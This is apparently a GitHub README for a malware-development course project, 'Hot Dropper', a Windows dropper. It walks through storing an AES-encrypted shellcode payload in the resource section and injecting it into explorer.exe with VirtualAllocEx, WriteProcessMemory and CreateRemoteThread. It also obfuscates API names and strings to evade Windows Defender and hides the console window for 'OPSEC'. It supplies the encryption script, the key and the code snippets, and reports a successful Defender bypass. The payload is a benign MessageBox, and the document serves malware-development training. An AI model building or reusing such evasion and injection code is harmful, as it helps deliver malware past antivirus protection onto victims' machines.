


# Hot Droppers

"Hot Dropper" is a dropper (aka implant) developed for the Sektor7 Malware Development Essentials course as the final project. Features:

- Storing AES-encrypted payload in .rsrc
- Bypassing Windows Defender with AES
- All strings are obfuscated
- No blinking command prompt window when launched

# Where this name "Hot Dropper" comes from?

Drop it like it's hot.

# How to Use

In each folder, there is a file named `compile.bat`. It is used to compile `implant.cpp`:

```powershell
.\compile.bat
```

Double click `implant.exe` to trigger the payload.

# Payload choice

This Dropper is not weaponized. The payload is just a MessageBox shellcode.

# AV Choice

The target AV is **Windows Defender**. Upload `implant.exe` to VirusTotal and we see that this dropper successfully bypassed Windows Defender:



But it is far from perfect:



This is fine. More AV evasion techniques will be taught in the MalDev Intermediate course.

# Design

From a high-level point of view, our dropper (the main function) does the following things in order:

- **Step 1: Extract payload from resource section.**
    - Here we use the `FindResource()`, `LoadResource()` and `LockResource()` functions.
- **Step 2: Allocate some memory buffer for payload.**
    - Here we use the `VirtualAlloc()` function.
- **Step 3: Copy payload to new memory buffer.**
    - This is just a single function call `RtlMoveMemory`.
- **Step 4: AES-decrypt the payload.**
    - This is just a single function call `AESDecrypt()`.
- **Step 5: Inject the payload to explorer.exe.**
    - This behavior will be flagged by Windows Defender, so we have to implement AV evasion features.

# AES Encryption

For convenience, we write a Python script for AES encryption:

```python
# Payload encryption with AES
# 
# author: ret2basic

import sys
from Crypto.Cipher import AES
from os import urandom
import hashlib

KEY = urandom(16)

def pad(s):
    return s + (AES.block_size - len(s) % AES.block_size) * chr(AES.block_size - len(s) % AES.block_size)

def aesenc(plaintext, key):

    k = hashlib.sha256(key).digest()
    iv = 16 * '\x00'
    plaintext = pad(plaintext)
    cipher = AES.new(k, AES.MODE_CBC, iv)

    return cipher.encrypt(bytes(plaintext))


try:
    plaintext = open(sys.argv[1], "rb").read()
except:
    print("File argument needed! %s <raw payload file>" % sys.argv[0])
    sys.exit()

ciphertext = aesenc(plaintext, KEY)

with open('favicon.ico', 'wb') as f:
    f.write(ciphertext)

print('AESkey[] = { 0x' + ', 0x'.join(hex(ord(x))[2:] for x in KEY) + ' };')
# print('payload[] = { 0x' + ', 0x'.join(hex(ord(x))[2:] for x in ciphertext) + ' };')
```

But why writing the output to `favicon.ico`? We will be explaining it in the next section.

# Storing payload in .rsrc

Typically there are three ways of storing payload:

- `.text` -> Define a payload variable in the main function.
- `.data` -> Define a payload variable as a global variable, that is, outside the main function.
- `.rsrc` -> Store the payload in a "resource" such as a favicon, then compile the exploit code and the source together. The payload can be extracted from the `.rsrc` section.

In "Stealthy Dropper", we will be using the third method. First, we **AES-encrypt** the MessageBox payload `msgbox64.bin` and store the output in `favicon.ico`, which is a resource:

```powershell
python.exe aesencrypt.py msgbox64.bin
```

Copy the key and paste it into the `char key[]` global variable in `implant.cpp`:

```cpp
char key[] = { 0x5b, 0x6f, 0x5d, 0x5, 0x6a, 0x10, 0xdb, 0xc9, 0xed, 0x41, 0xac, 0x1a, 0x73, 0xea, 0x82, 0xba };
```

# Bypassing Windows Defender

In the `Inject()` function, we need the following function calls from kernel32.dll:

- `VirtualAllocEx()`
- `WriteProcessMemory()`
- `CreateRemoteThread()`

If we call these functions directly, Windows Defender is going to flag it. To bypass it, we use two techniques:

- **Function obfuscation**
- **String obfuscation**

## Function obfuscation

If we call a function directly, for example, `VirtualAllocEx()`, then the process will grab it from the DLL, in this case kernel32.dll. This behavior can be flagged by AV easily.

To bypass this, we can use another way of calling function from DLL:

```cpp
pVirtualAllocEx = GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualAllocEx");
```

Here `pVirtualAllocEx` is a pointer. Since the compiler does not know what`pVirtualAllocEx` is, we should declare it in `implant.cpp`:

```cpp
LPVOID (WINAPI * pVirtualAllocEx)(
    HANDLE hProcess,
    LPVOID lpAddress,
    SIZE_T dwSize,
    DWORD  flAllocationType,
    DWORD  flProtect
);
```

This declaration is obtained from MSDN:

https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex

Do the same thing to  `WriteProcessMemory()` and `CreateRemoteThread()`.

## String obfuscation

Recall the following code we wrote in "function obfuscation" section:

```cpp
pVirtualAllocEx = GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualAllocEx");
```

If we write code like this, the string "VirtualAllocEx" will present in the executable after compilation. This behavior can be flagged by AV easily since AV does static analysis on executables.

To bypass it, we obfuscate the string "VirtualAllocEx" with AES. Basically we are going to AES-encrypt this string with `aesencrypt.py`, copy and paste the output to `implant.cpp` and implement AES-decrypt functionalities in `implant.cpp`.

Since we will be using the AES key for multiple times, we can just update the script `aesencrypt.py` and use the hardcoded key:

```python
# KEY = urandom(16) <- this is only used once to generate the AES key
KEY = b"\x5b\x6f\x5d\x05\x6a\x10\xdb\xc9\xed\x41\xac\x1a\x73\xea\x82\xba"
```

Also we need to add a `printC` function that prints the output in C format:

```python
def printC(ciphertext):
    print('{ 0x' + ', 0x'.join(hex(ord(x))[2:] for x in ciphertext) + ' };')
```

Run the script `aesencrypt.py` interactively, within the command prompt:

```powershell
python.exe -i aesencrypt.py
```

AES-encrypt the string "VirtualAllocEx" with the AES key. :

```python
>>> printC(aesenc("VirtualAllocEx" + b"\x00", KEY))

{ 0xe5, 0x79, 0xbd, 0xa0, 0x1d, 0xfe, 0x24, 0x80, 0x40, 0x7a, 0xb7, 0xa2, 0x3a, 0x86, 0x4, 0x8b };
```

Remember that we have to append a **null byte** to the end of "VirtualAllocEx" since it will be decrypted in C later. In `implant.cpp`, we create a variable `unsigned char sVirtualAllocEx[]` to hold this encrypted data:

```cpp
unsigned char sVirtualAllocEx[] = { 0xe5, 0x79, 0xbd, 0xa0, 0x1d, 0xfe, 0x24, 0x80, 0x40, 0x7a, 0xb7, 0xa2, 0x3a, 0x86, 0x4, 0x8b };
```

Do the same thing to  `WriteProcessMemory()` and `CreateRemoteThread()`:

```cpp
unsigned char sWriteProcessMemory[] = { 0x63, 0xb1, 0x7d, 0x9b, 0x8d, 0x44, 0x88, 0x26, 0x16, 0xb4, 0xba, 0xa6, 0x5b, 0xf9, 0x34, 0x5b, 0xe5, 0x47, 0x95, 0x75, 0x98, 0xe1, 0xe1, 0x5c, 0x8d, 0xe5, 0xc7, 0x7f, 0x8b, 0x1a, 0xec, 0x40 };
unsigned char sCreateRemoteThread[] =  { 0x6d, 0x34, 0x17, 0xf, 0xca, 0x52, 0xe7, 0x54, 0x8d, 0xd3, 0xb, 0xc5, 0x5d, 0x41, 0x53, 0xf9, 0x3b, 0x59, 0x1a, 0xa0, 0xd, 0x61, 0xb0, 0x34, 0x4a, 0x5, 0x21, 0xc5, 0xd, 0x4c, 0xc7, 0x42 };
```

Right after this block of code, we add three `AESDecrypt` function calls to decrypt the encrypted payloads back to the original form:

```cpp
AESDecrypt((char *) sVirtualAllocEx, sizeof(sVirtualAllocEx), key, sizeof(key));
AESDecrypt((char *) sWriteProcessMemory, sizeof(sWriteProcessMemory), key, sizeof(key));
AESDecrypt((char *) sCreateRemoteThread, sizeof(sCreateRemoteThread), key, sizeof(key));
```

Use this technique to obfuscate "kernel32.dll" as well.

# GUI Trick

If we compile `implant.cpp` as a console program, there will a blinking command prompt window appearing on victim's desktop when launching. It is bad OPSEC.

Instead, if we compile `implant.cpp` as a GUI program, then this will not be an issue anymore. We just need to do two things:

1. In `implant.cpp`, change the main function `int main()` to `int WINAPI WinMain()`.
2. In `compile.bat`, use `/SUBSYSTEM:WINDOWS` instead of `/SUBSYSTEM:CONSOLE`.
